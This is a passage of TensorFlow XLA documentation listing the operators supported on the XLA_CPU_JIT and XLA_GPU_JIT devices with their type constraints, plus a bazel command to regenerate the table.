`DepthToSpace`                        | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`DepthwiseConv2dNative`               | `T={double,float}`
`DepthwiseConv2dNativeBackpropFilter` | `T={double,float}`
`DepthwiseConv2dNativeBackpropInput`  | `T={double,float}`
`Diag`                                | `T={complex64,double,float,int32,int64}`
`DiagPart`                            | `T={complex64,double,float,int32,int64}`
`Div`                                 | `T={complex64,double,float,int32,int64}`
`DynamicStitch`                       | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Elu`                                 | `T={double,float}`
`EluGrad`                             | `T={double,float}`
`Equal`                               | `T={bool,complex64,double,float,int32,int64}`
`Exp`                                 | `T={complex64,double,float}`
`ExpandDims`                          | `Tdim={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Expm1`                               | `T={complex64,double,float}`
`ExtractImagePatches`                 | `T={double,float,int32,int64,uint32,uint64}`
`FFT`                                 |
`FFT2D`                               |
`FFT3D`                               |
`FakeQuantWithMinMaxArgs`             |
`FakeQuantWithMinMaxArgsGradient`     |
`FakeQuantWithMinMaxVars`             |
`FakeQuantWithMinMaxVarsGradient`     |
`Fill`                                | `index_type={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Floor`                               | `T={double,float}`
`FloorDiv`                            | `T={complex64,double,float,int32,int64}`
`FloorMod`                            | `T={double,float,int32,int64}`
`FusedBatchNorm`                      | `T={float}`
`FusedBatchNormGrad`                  | `T={float}`
`FusedBatchNormGradV2`                | `U={float}`<br>`T={float}`
`FusedBatchNormV2`                    | `U={float}`<br>`T={float}`
`Gather`                              | `Tindices={int32,int64}`<br>`Tparams={bool,complex64,double,float,int32,int64,uint32,uint64}`
`GatherNd`                            | `Tindices={int32,int64}`<br>`Tparams={bool,complex64,double,float,int32,int64,uint32,uint64}`
`GatherV2`                            | `Taxis={int32,int64}`<br>`Tindices={int32,int64}`<br>`Tparams={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Greater`                             | `T={double,float,int32,int64,uint32,uint64}`
`GreaterEqual`                        | `T={double,float,int32,int64,uint32,uint64}`
`HSVToRGB`                            | `T={double,float}`
`IFFT`                                |
`IFFT2D`                              |
`IFFT3D`                              |
`IRFFT`                               |
`IRFFT2D`                             |
`IRFFT3D`                             |
`Identity`                            | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`IdentityN`                           | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Imag`                                | `Tout={double,float}`<br>`T={complex64}`
`Inv`                                 | `T={complex64,double,float,int32,int64}`
`Invert`                              | `T={int32,int64,uint32,uint64}`
`InvertPermutation`                   | `T={int32}`
`IsFinite`                            | `T={double,float}`
`IsInf`                               | `T={double,float}`
`IsNan`                               | `T={double,float}`
`L2Loss`                              | `T={double,float}`
`LRN`                                 | `T={float}`
`LRNGrad`                             | `T={float}`
`LeftShift`                           | `T={int32,int64,uint32,uint64}`
`Less`                                | `T={double,float,int32,int64,uint32,uint64}`
`LessEqual`                           | `T={double,float,int32,int64,uint32,uint64}`
`LinSpace`                            | `Tidx={int32,int64}`<br>`T={double,float}`
`Log`                                 | `T={complex64,double,float}`
`Log1p`                               | `T={complex64,double,float}`
`LogSoftmax`                          | `T={double,float}`
`LogicalAnd`                          |
`LogicalNot`                          |
`LogicalOr`                           |
`MatMul`                              | `T={complex64,double,float}`
`MatrixBandPart`                      | `Tindex={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`MatrixDiag`                          | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`MatrixDiagPart`                      | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`MatrixSetDiag`                       | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`MatrixTriangularSolve`               | `T={complex64,double,float}`
`Max`                                 | `Tidx={int32,int64}`<br>`T={complex64,double,float,int32,int64,uint32,uint64}`
`MaxPool`                             | `T={double,float,int32,int64}`
`MaxPool3D`                           | `T={float}`
`MaxPool3DGrad`                       | `TInput={float}`<br>`T={float}`
`MaxPoolGrad`                         | `T={double,float,int32,int64,uint32,uint64}`
`MaxPoolGradGrad`                     | `T={float}`
`MaxPoolGradGradV2`                   | `T={float}`
`MaxPoolGradV2`                       | `T={double,float,int32,int64,uint32,uint64}`
`MaxPoolV2`                           | `T={double,float,int32,int64}`
`Maximum`                             | `T={double,float,int32,int64}`
`Mean`                                | `Tidx={int32,int64}`<br>`T={complex64,double,float,int32,int64,uint32,uint64}`
`Min`                                 | `Tidx={int32,int64}`<br>`T={complex64,double,float,int32,int64,uint32,uint64}`
`Minimum`                             | `T={double,float,int32,int64}`
`MirrorPad`                           | `Tpaddings={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Mod`                                 | `T={double,float,int32,int64}`
`Mul`                                 | `T={complex64,double,float,int32,int64}`
`Multinomial`                         | `output_dtype={int32,int64}`<br>`T={double,float,int32,int64,uint32,uint64}`
`Neg`                                 | `T={complex64,double,float,int32,int64}`
`NoOp`                                |
`NotEqual`                            | `T={bool,complex64,double,float,int32,int64}`
`OneHot`                              | `TI={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`OnesLike`                            | `T={bool,complex64,double,float,int32,int64}`
`Pack`                                | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Pad`                                 | `Tpaddings={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`PadV2`                               | `Tpaddings={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`ParallelDynamicStitch`               | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Pow`                                 | `T={complex64,double,float,int32,int64}`
`PreventGradient`                     | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Prod`                                | `Tidx={int32,int64}`<br>`T={complex64,double,float,int32,int64,uint32,uint64}`
`QuantizeAndDequantizeV2`             | `T={double,float}`
`RFFT`                                |
`RFFT2D`                              |
`RFFT3D`                              |
`RGBToHSV`                            | `T={double,float}`
`RandomStandardNormal`                | `dtype={float}`
`RandomUniform`                       | `T={int32,int64}`<br>`dtype={double,float}`
`RandomUniformInt`                    | `T={int32,int64}`<br>`Tout={int32,int64}`
`Range`                               | `Tidx={double,float,int32,int64}`
`Rank`                                | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`ReadVariableOp`                      | `dtype={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Real`                                | `Tout={double,float}`<br>`T={complex64}`
`RealDiv`                             | `T={complex64,double,float,int32,int64}`
`Reciprocal`                          | `T={complex64,double,float,int32,int64}`
`ReciprocalGrad`                      | `T={complex64,double,float}`
`Relu`                                | `T={double,float,int32,int64,uint32,uint64}`
`Relu6`                               | `T={double,float,int32,int64,uint32,uint64}`
`Relu6Grad`                           | `T={double,float,int32,int64,uint32,uint64}`
`ReluGrad`                            | `T={double,float,int32,int64,uint32,uint64}`
`Reshape`                             | `Tshape={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`ResizeBilinear`                      | `T={double,float,int32,int64}`
`ResizeBilinearGrad`                  | `T={double,float}`
`ResourceApplyAdagrad`                | `T={double,float}`
`ResourceApplyAdam`                   | `T={double,float}`
`ResourceApplyFtrl`                   | `T={double,float}`
`ResourceApplyFtrlV2`                 | `T={double,float}`
`ResourceApplyGradientDescent`        | `T={double,float}`
`ResourceApplyMomentum`               | `T={double,float}`
`ResourceApplyRMSProp`                | `T={double,float}`
`ResourceGather`                      | `Tindices={int32,int64}`<br>`dtype={complex64,double,float,int32,int64,uint32,uint64}`
`ResourceStridedSliceAssign`          | `Index={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Reverse`                             | `T={bool,complex64,double,float,int32,int64}`
`ReverseSequence`                     | `Tlen={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`ReverseV2`                           | `T={bool,complex64,double,float,int32,int64}`<br>`Tidx={int32,int64}`
`RightShift`                          | `T={int32,int64,uint32,uint64}`
`Rint`                                | `T={double,float}`
`Round`                               | `T={complex64,double,float,int32,int64}`
`Rsqrt`                               | `T={complex64,double,float}`
`RsqrtGrad`                           | `T={complex64,double,float}`
`ScatterNd`                           | `Tindices={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Select`                              | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Selu`                                | `T={double,float}`
`SeluGrad`                            | `T={double,float}`
`Shape`                               | `out_type={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`ShapeN`                              | `out_type={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Sigmoid`                             | `T={complex64,double,float}`
`SigmoidGrad`                         | `T={complex64,double,float}`
`Sign`                                | `T={complex64,double,float,int32,int64}`
`Sin`                                 | `T={complex64,double,float}`
`Sinh`                                | `T={complex64,double,float}`
`Size`                                | `out_type={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Slice`                               | `Index={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Snapshot`                            | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Softmax`                             | `T={double,float}`
`SoftmaxCrossEntropyWithLogits`       | `T={double,float}`
`Softplus`                            | `T={double,float,int32,int64,uint32,uint64}`
`SoftplusGrad`                        | `T={double,float,int32,int64,uint32,uint64}`
`Softsign`                            | `T={double,float,int32,int64,uint32,uint64}`
`SoftsignGrad`                        | `T={double,float,int32,int64,uint32,uint64}`
`SpaceToBatch`                        | `Tpaddings={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`SpaceToBatchND`                      | `Tblock_shape={int32,int64}`<br>`Tpaddings={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`SpaceToDepth`                        | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`SparseMatMul`                        | `Tb={float}`<br>`Ta={float}`
`SparseSoftmaxCrossEntropyWithLogits` | `Tlabels={int32,int64}`<br>`T={double,float}`
`Split`                               | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`SplitV`                              | `Tlen={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Sqrt`                                | `T={complex64,double,float}`
`SqrtGrad`                            | `T={complex64,double,float}`
`Square`                              | `T={complex64,double,float,int32,int64}`
`SquaredDifference`                   | `T={complex64,double,float,int32,int64}`
`Squeeze`                             | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`StackCloseV2`                        |
`StackPopV2`                          | `elem_type={bool,complex64,double,float,int32,int64,uint32,uint64}`
`StackPushV2`                         | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`StackV2`                             | `elem_type={bool,complex64,double,float,int32,int64,uint32,uint64}`
`StatelessRandomNormal`               | `Tseed={int32}`<br>`T={int32,int64}`<br>`dtype={float}`
`StatelessRandomUniform`              | `Tseed={int32}`<br>`T={int32,int64}`<br>`dtype={float}`
`StopGradient`                        | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`StridedSlice`                        | `Index={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`StridedSliceGrad`                    | `Index={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Sub`                                 | `T={complex64,double,float,int32,int64}`
`Sum`                                 | `Tidx={int32,int64}`<br>`T={complex64,double,float,int32,int64,uint32,uint64}`
`SymbolicGradient`                    | `Tout={bool,complex64,double,float,int32,int64,uint32,uint64}`<br>`Tin={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Tan`                                 | `T={complex64,double,float,int32,int64}`
`Tanh`                                | `T={complex64,double,float}`
`TanhGrad`                            | `T={complex64,double,float}`
`TensorArrayCloseV3`                  |
`TensorArrayConcatV3`                 | `dtype={bool,complex64,double,float,int32,int64,uint32,uint64}`
`TensorArrayGatherV3`                 | `dtype={bool,complex64,double,float,int32,int64,uint32,uint64}`
`TensorArrayGradV3`                   |
`TensorArrayReadV3`                   | `dtype={bool,complex64,double,float,int32,int64,uint32,uint64}`
`TensorArrayScatterV3`                | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`TensorArraySizeV3`                   |
`TensorArraySplitV3`                  | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`TensorArrayV3`                       | `dtype={bool,complex64,double,float,int32,int64,uint32,uint64}`
`TensorArrayWriteV3`                  | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Tile`                                | `Tmultiples={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Transpose`                           | `Tperm={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`TruncateDiv`                         | `T={complex64,double,float,int32,int64}`
`TruncateMod`                         | `T={double,float,int32,int64}`
`TruncatedNormal`                     | `T={int32,int64}`<br>`dtype={double,float}`
`Unpack`                              | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`UnsortedSegmentSum`                  | `Tnumsegments={int32,int64}`<br>`Tindices={int32,int64}`<br>`T={complex64,double,float,int32,int64,uint32,uint64}`
`VarIsInitializedOp`                  |
`VariableShape`                       | `out_type={int32,int64}`
`XlaWhile`                            | `T={bool,complex64,double,float,int32,int64,resource,uint32,uint64}`
`ZerosLike`                           | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`_Arg`                                | `T={bool,complex64,double,float,int32,int64,resource,uint32,uint64}`
`_ArrayToList`                        | `out_types={bool,complex64,double,float,int32,int64,uint32,uint64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`_ListToArray`                        | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`<br>`Tin={bool,complex64,double,float,int32,int64,uint32,uint64}`
`_Retval`                             | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`_XLARecv`                            | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`_XLASend`                            | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`

To regenerate this table, run:

```shell
bazel run -c opt -- tensorflow/compiler/tf2xla:tf2xla_supported_ops --device=XLA_CPU_JIT
```
**Supported operators for device: XLA_GPU_JIT**

Operator                              | Type Constraint
------------------------------------- | ---------------
`Abs`                                 | `T={double,float,int32,int64}`
`Acos`                                | `T={complex64,double,float,int32,int64}`
`Acosh`                               | `T={complex64,double,float}`
`Add`                                 | `T={complex64,double,float,int32,int64}`
`AddN`                                | `T={complex64,double,float,int32,int64,uint32,uint64}`
`AdjustContrastv2`                    |
`AdjustHue`                           |
`AdjustSaturation`                    |
`All`                                 | `Tidx={int32,int64}`
`Angle`                               | `Tout={double,float}`<br>`T={complex64}`
`Any`                                 | `Tidx={int32,int64}`
`ApproximateEqual`                    | `T={complex64,double,float,int32,int64,uint32,uint64}`
`ArgMax`                              | `Tidx={int32,int64}`<br>`output_type={int32,int64}`<br>`T={complex64,double,float,int32,int64,uint32,uint64}`
`ArgMin`                              | `Tidx={int32,int64}`<br>`output_type={int32,int64}`<br>`T={complex64,double,float,int32,int64,uint32,uint64}`
`Asin`                                | `T={complex64,double,float,int32,int64}`
`Asinh`                               | `T={complex64,double,float}`
`AssignAddVariableOp`                 | `dtype={complex64,double,float,int32,int64,uint32,uint64}`
`AssignSubVariableOp`                 | `dtype={complex64,double,float,int32,int64,uint32,uint64}`
`AssignVariableOp`                    | `dtype={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Atan`                                | `T={complex64,double,float,int32,int64}`
`Atan2`                               | `T={double,float}`
`Atanh`                               | `T={complex64,double,float}`
`AvgPool`                             | `T={double,float}`
`AvgPool3D`                           | `T={double,float}`
`AvgPool3DGrad`                       | `T={double,float}`
`AvgPoolGrad`                         | `T={double,float}`
`BatchMatMul`                         | `T={complex64,double,float,int32}`
`BatchToSpace`                        | `Tidx={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`BatchToSpaceND`                      | `Tcrops={int32,int64}`<br>`Tblock_shape={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`BiasAdd`                             | `T={complex64,double,float,int32,int64,uint32,uint64}`
`BiasAddGrad`                         | `T={complex64,double,float,int32,int64,uint32,uint64}`
`BiasAddV1`                           | `T={complex64,double,float,int32,int64,uint32,uint64}`
`BitwiseAnd`                          | `T={int32,int64,uint32,uint64}`
`BitwiseOr`                           | `T={int32,int64,uint32,uint64}`
`BroadcastArgs`                       | `T={int32,int64}`
`BroadcastGradientArgs`               | `T={int32,int64}`
`Cast`                                | `DstT={bool,complex64,double,float,int32,int64,uint32,uint64}`<br>`SrcT={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Ceil`                                | `T={double,float}`
`Cholesky`                            | `T={double,float}`
`Complex`                             | `Tout={complex64}`<br>`T={double,float}`
`ComplexAbs`                          | `Tout={double,float}`<br>`T={complex64}`
`Concat`                              | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`ConcatOffset`                        |
`ConcatV2`                            | `Tidx={int32}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Conj`                                | `T={complex64}`
`Const`                               | `dtype={bool,complex64,double,float,int32,int64,uint32,uint64}`
`ControlTrigger`                      |
`Conv2D`                              | `T={float}`
`Conv2DBackpropFilter`                | `T={float}`
`Conv2DBackpropInput`                 | `T={float}`
`Conv3D`                              | `T={double,float}`
`Conv3DBackpropFilterV2`              | `T={double,float}`
`Conv3DBackpropInputV2`               | `T={double,float}`
`Cos`                                 | `T={complex64,double,float}`
`Cosh`                                | `T={complex64,double,float}`
`Cross`                               | `T={double,float,int32,int64,uint32,uint64}`
`Cumprod`                             | `Tidx={int32,int64}`<br>`T={float}`
`Cumsum`                              | `Tidx={int32,int64}`<br>`T={float}`
`DepthToSpace`                        | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`DepthwiseConv2dNative`               | `T={double,float}`
`DepthwiseConv2dNativeBackpropFilter` | `T={double,float}`
`DepthwiseConv2dNativeBackpropInput`  | `T={double,float}`
`Diag`                                | `T={complex64,double,float,int32,int64}`
`DiagPart`                            | `T={complex64,double,float,int32,int64}`
`Div`                                 | `T={complex64,double,float,int32,int64}`
`DynamicStitch`                       | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Elu`                                 | `T={double,float}`
`EluGrad`                             | `T={double,float}`
`Equal`                               | `T={bool,complex64,double,float,int32,int64}`
`Exp`                                 | `T={complex64,double,float}`
`ExpandDims`                          | `Tdim={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Expm1`                               | `T={complex64,double,float}`
`ExtractImagePatches`                 | `T={double,float,int32,int64,uint32,uint64}`
`FFT`                                 |
`FFT2D`                               |
`FFT3D`                               |
`FakeQuantWithMinMaxArgs`             |
`FakeQuantWithMinMaxArgsGradient`     |
`FakeQuantWithMinMaxVars`             |
`FakeQuantWithMinMaxVarsGradient`     |
`Fill`                                | `index_type={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Floor`                               | `T={double,float}`
`FloorDiv`                            | `T={complex64,double,float,int32,int64}`
`FloorMod`                            | `T={double,float,int32,int64}`
`FusedBatchNorm`                      | `T={float}`
`FusedBatchNormGrad`                  | `T={float}`
`FusedBatchNormGradV2`                | `U={float}`<br>`T={float}`
`FusedBatchNormV2`                    | `U={float}`<br>`T={float}`
`Gather`                              | `Tindices={int32,int64}`<br>`Tparams={bool,complex64,double,float,int32,int64,uint32,uint64}`
`GatherNd`                            | `Tindices={int32,int64}`<br>`Tparams={bool,complex64,double,float,int32,int64,uint32,uint64}`
`GatherV2`                            | `Taxis={int32,int64}`<br>`Tindices={int32,int64}`<br>`Tparams={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Greater`                             | `T={double,float,int32,int64,uint32,uint64}`
`GreaterEqual`                        | `T={double,float,int32,int64,uint32,uint64}`
`HSVToRGB`                            | `T={double,float}`
`IFFT`                                |
`IFFT2D`                              |
`IFFT3D`                              |
`IRFFT`                               |
`IRFFT2D`                             |
`IRFFT3D`                             |
`Identity`                            | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`IdentityN`                           | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Imag`                                | `Tout={double,float}`<br>`T={complex64}`
`Inv`                                 | `T={complex64,double,float,int32,int64}`
`Invert`                              | `T={int32,int64,uint32,uint64}`
`InvertPermutation`                   | `T={int32}`
`IsFinite`                            | `T={double,float}`
`IsInf`                               | `T={double,float}`
`IsNan`                               | `T={double,float}`
`L2Loss`                              | `T={double,float}`
`LRN`                                 | `T={float}`
`LRNGrad`                             | `T={float}`
`LeftShift`                           | `T={int32,int64,uint32,uint64}`
`Less`                                | `T={double,float,int32,int64,uint32,uint64}`
`LessEqual`                           | `T={double,float,int32,int64,uint32,uint64}`
`LinSpace`                            | `Tidx={int32,int64}`<br>`T={double,float}`
`Log`                                 | `T={complex64,double,float}`
`Log1p`                               | `T={complex64,double,float}`
`LogSoftmax`                          | `T={double,float}`
`LogicalAnd`                          |
`LogicalNot`                          |
`LogicalOr`                           |
`MatMul`                              | `T={complex64,double,float}`
`MatrixBandPart`                      | `Tindex={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`MatrixDiag`                          | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`MatrixDiagPart`                      | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`MatrixSetDiag`                       | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`MatrixTriangularSolve`               | `T={complex64,double,float}`
`Max`                                 | `Tidx={int32,int64}`<br>`T={complex64,double,float,int32,int64,uint32,uint64}`
`MaxPool`                             | `T={double,float,int32,int64}`
`MaxPool3D`                           | `T={float}`
`MaxPool3DGrad`                       | `TInput={float}`<br>`T={float}`
`MaxPoolGrad`                         | `T={double,float,int32,int64,uint32,uint64}`
`MaxPoolGradGrad`                     | `T={float}`
`MaxPoolGradGradV2`                   | `T={float}`
`MaxPoolGradV2`                       | `T={double,float,int32,int64,uint32,uint64}`
`MaxPoolV2`                           | `T={double,float,int32,int64}`
`Maximum`                             | `T={double,float,int32,int64}`
`Mean`                                | `Tidx={int32,int64}`<br>`T={complex64,double,float,int32,int64,uint32,uint64}`
`Min`                                 | `Tidx={int32,int64}`<br>`T={complex64,double,float,int32,int64,uint32,uint64}`
`Minimum`                             | `T={double,float,int32,int64}`
`MirrorPad`                           | `Tpaddings={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Mod`                                 | `T={double,float,int32,int64}`
`Mul`                                 | `T={complex64,double,float,int32,int64}`
`Multinomial`                         | `output_dtype={int32,int64}`<br>`T={double,float,int32,int64,uint32,uint64}`
`Neg`                                 | `T={complex64,double,float,int32,int64}`
`NoOp`                                |
`NotEqual`                            | `T={bool,complex64,double,float,int32,int64}`
`OneHot`                              | `TI={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`OnesLike`                            | `T={bool,complex64,double,float,int32,int64}`
`Pack`                                | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Pad`                                 | `Tpaddings={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`PadV2`                               | `Tpaddings={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`ParallelDynamicStitch`               | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Pow`                                 | `T={complex64,double,float,int32,int64}`
`PreventGradient`                     | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Prod`                                | `Tidx={int32,int64}`<br>`T={complex64,double,float,int32,int64,uint32,uint64}`
`QuantizeAndDequantizeV2`             | `T={double,float}`
`RFFT`                                |
`RFFT2D`                              |
`RFFT3D`                              |
`RGBToHSV`                            | `T={double,float}`
`Range`                               | `Tidx={double,float,int32,int64}`
`Rank`                                | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`ReadVariableOp`                      | `dtype={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Real`                                | `Tout={double,float}`<br>`T={complex64}`
`RealDiv`                             | `T={complex64,double,float,int32,int64}`
`Reciprocal`                          | `T={complex64,double,float,int32,int64}`
`ReciprocalGrad`                      | `T={complex64,double,float}`
`Relu`                                | `T={double,float,int32,int64,uint32,uint64}`
`Relu6`                               | `T={double,float,int32,int64,uint32,uint64}`
`Relu6Grad`                           | `T={double,float,int32,int64,uint32,uint64}`
`ReluGrad`                            | `T={double,float,int32,int64,uint32,uint64}`
`Reshape`                             | `Tshape={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`ResizeBilinear`                      | `T={double,float,int32,int64}`
`ResizeBilinearGrad`                  | `T={double,float}`
`ResourceApplyAdagrad`                | `T={double,float}`
`ResourceApplyAdam`                   | `T={double,float}`
`ResourceApplyFtrl`                   | `T={double,float}`
`ResourceApplyFtrlV2`                 | `T={double,float}`
`ResourceApplyGradientDescent`        | `T={double,float}`
`ResourceApplyMomentum`               | `T={double,float}`
`ResourceApplyRMSProp`                | `T={double,float}`
`ResourceGather`                      | `Tindices={int32,int64}`<br>`dtype={complex64,double,float,int32,int64,uint32,uint64}`
`ResourceStridedSliceAssign`          | `Index={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Reverse`                             | `T={bool,complex64,double,float,int32,int64}`
`ReverseSequence`                     | `Tlen={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`ReverseV2`                           | `T={bool,complex64,double,float,int32,int64}`<br>`Tidx={int32,int64}`
`RightShift`                          | `T={int32,int64,uint32,uint64}`
`Rint`                                | `T={double,float}`
`Round`                               | `T={complex64,double,float,int32,int64}`
`Rsqrt`                               | `T={complex64,double,float}`
`RsqrtGrad`                           | `T={complex64,double,float}`
`ScatterNd`                           | `Tindices={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Select`                              | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Selu`                                | `T={double,float}`
`SeluGrad`                            | `T={double,float}`
`Shape`                               | `out_type={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`ShapeN`                              | `out_type={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Sigmoid`                             | `T={complex64,double,float}`
`SigmoidGrad`                         | `T={complex64,double,float}`
`Sign`                                | `T={complex64,double,float,int32,int64}`
`Sin`                                 | `T={complex64,double,float}`
`Sinh`                                | `T={complex64,double,float}`
`Size`                                | `out_type={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Slice`                               | `Index={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Snapshot`                            | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Softmax`                             | `T={double,float}`
`SoftmaxCrossEntropyWithLogits`       | `T={double,float}`
`Softplus`                            | `T={double,float,int32,int64,uint32,uint64}`
`SoftplusGrad`                        | `T={double,float,int32,int64,uint32,uint64}`
`Softsign`                            | `T={double,float,int32,int64,uint32,uint64}`
`SoftsignGrad`                        | `T={double,float,int32,int64,uint32,uint64}`
`SpaceToBatch`                        | `Tpaddings={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`SpaceToBatchND`                      | `Tblock_shape={int32,int64}`<br>`Tpaddings={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`SpaceToDepth`                        | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`SparseMatMul`                        | `Tb={float}`<br>`Ta={float}`
`SparseSoftmaxCrossEntropyWithLogits` | `Tlabels={int32,int64}`<br>`T={double,float}`
`Split`                               | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`SplitV`                              | `Tlen={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Sqrt`                                | `T={complex64,double,float}`
`SqrtGrad`                            | `T={complex64,double,float}`
`Square`                              | `T={complex64,double,float,int32,int64}`
`SquaredDifference`                   | `T={complex64,double,float,int32,int64}`
`Squeeze`                             | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`StackCloseV2`                        |
`StackPopV2`                          | `elem_type={bool,complex64,double,float,int32,int64,uint32,uint64}`
`StackPushV2`                         | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`StackV2`                             | `elem_type={bool,complex64,double,float,int32,int64,uint32,uint64}`
`StatelessRandomNormal`               | `Tseed={int32}`<br>`T={int32,int64}`<br>`dtype={float}`
`StatelessRandomUniform`              | `Tseed={int32}`<br>`T={int32,int64}`<br>`dtype={float}`
`StopGradient`                        | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`StridedSlice`                        | `Index={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`StridedSliceGrad`                    | `Index={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Sub`                                 | `T={complex64,double,float,int32,int64}`
`Sum`                                 | `Tidx={int32,int64}`<br>`T={complex64,double,float,int32,int64,uint32,uint64}`
`SymbolicGradient`                    | `Tout={bool,complex64,double,float,int32,int64,uint32,uint64}`<br>`Tin={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Tan`                                 | `T={complex64,double,float,int32,int64}`
`Tanh`                                | `T={complex64,double,float}`
`TanhGrad`                            | `T={complex64,double,float}`
`TensorArrayCloseV3`                  |
`TensorArrayConcatV3`                 | `dtype={bool,complex64,double,float,int32,int64,uint32,uint64}`
